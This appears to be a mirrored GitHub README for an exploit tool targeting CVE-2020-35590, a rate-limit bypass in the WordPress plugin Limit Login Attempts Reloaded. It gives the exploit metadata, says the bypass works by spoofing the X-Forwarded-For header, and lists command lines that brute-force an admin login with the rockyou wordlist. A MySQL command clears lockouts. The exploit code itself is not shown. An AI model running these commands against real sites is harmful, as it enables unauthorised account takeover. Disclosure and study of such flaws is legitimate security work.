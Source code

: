 # CVE-2020-35590

Brute-force tool for WordPress Plugin Limit Login Attempts Reloaded >=2.13.0 - Login Limit Bypass (CVE-2020-35590)

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/N4nj0](https://github.com/N4nj0) |
| Url      | [https://github.com/N4nj0/CVE-2020-35590](https://github.com/N4nj0/CVE-2020-35590)                                               |
| Stars    | 8                                                          |
| License  | MIT License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

## Exploit Information

**Exploit Title:** WordPress Plugin Limit Login Attempts Reloaded 2.13.0 - Login Limit Bypass  
**CVE:** [CVE-2020-35590](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-35590)  
**Date:** 2020-06-09  
**Exploit Author:** N4nj0  
**Software Link:** [https://wordpress.org/plugins/limit-login-attempts-reloaded/](https://wordpress.org/plugins/limit-login-attempts-reloaded/)  
**Version:** 2.13.0  
**Tested on:** WordPress 5.4.1, 5.4.2  
**Vulnerability Advisory:** [https://n4nj0.github.io/advisories/wordpress-plugin-limit-login-attempts-reloaded/](https://n4nj0.github.io/advisories/wordpress-plugin-limit-login-attempts-reloaded/)  

The affected WordPress plugin is aimed to be a bruteforce attack protection mechanism, and is currently installed in more than **1 million** of active installations.  
I've found a rate limiting bypass under a non-default configuration, which effectively defeats the plugin purpose.  

## Usage

### Check

`./wp-brute.py -c -u http://wordpress -H X-Forwarded-For -l admin -P /usr/share/wordlists/rockyou.txt`  
`./wp-brute.py --check --url http://wordpress --header X-Forwarded-For --login admin --passwordlist /usr/share/wordlists/rockyou.txt --quiet`  

### Exploit
`./wp-brute.py -e -u http://wordpress -H X-Forwarded-For -l admin -P /usr/share/wordlists/rockyou.txt -q`  
`./wp-brute.py --exploit --url http://wordpress --header X-Forwarded-For --login admin --passwordlist /usr/share/wordlists/rockyou.txt --quiet`  

### Manually unlock user
`mysql -uroot -ppassword wordpress -e "UPDATE wp_options SET option_value = '' WHERE option_name = 'limit_login_lockouts' LIMIT 1;"`  



## Get the content

```
git clone https://github.com/N4nj0/CVE-2020-35590
cd CVE-2020-35590
```

{% embed url="https://github.com/N4nj0/CVE-2020-35590" %}

<figure><img src="https://avatars.githubusercontent.com/u/76006964?v=4" alt=""><figcaption><p>N4nj0</p></figcaption></figure>
